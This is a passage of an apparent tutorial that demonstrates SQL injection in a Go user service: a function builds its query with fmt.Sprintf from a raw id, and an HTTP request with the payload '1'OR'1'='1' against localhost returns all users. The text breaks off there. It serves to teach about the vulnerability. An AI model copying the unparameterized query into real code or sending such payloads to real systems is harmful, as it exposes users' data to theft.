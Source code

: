 `user_service.go`:

```go
  func GetUserInject(id string) ([]User, error) {
    query := fmt.Sprintf("SELECT id, name, email FROM users WHERE id = %s", id)
    rows, err := database.DBConnection.Query(query)
    if err != nil {
      return nil, err
    }
    defer rows.Close()

    var users []User
    for rows.Next() {
      var user User
      if err := rows.Scan(&user.ID, &user.Name, &user.Email); err != nil {
        return nil, err
      }
      users = append(users, user)
    }

    return users, nil
  }
```

In the service we execute our query, passing the id directly `"SELECT id, name, email FROM users WHERE id = %s", id`, here is the vulnerability we are passing the id directly to the query, without treating it first.

Let's make a request using the vscode [HTTP Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) extension:

```http
GET http://localhost:8080/users?id=1 HTTP/1.1
content-type: application/json
```

We received the expected return:

```json
[
  {
    "id": 1,
    "name": "John Doe",
    "email": "john.doe@example.com"
  }
]
```

Now, let's inject the sql:

```http
GET http://localhost:8080/users?id='1'OR'1'='1' HTTP/1.1
content-type: application/json
```

Received all users:
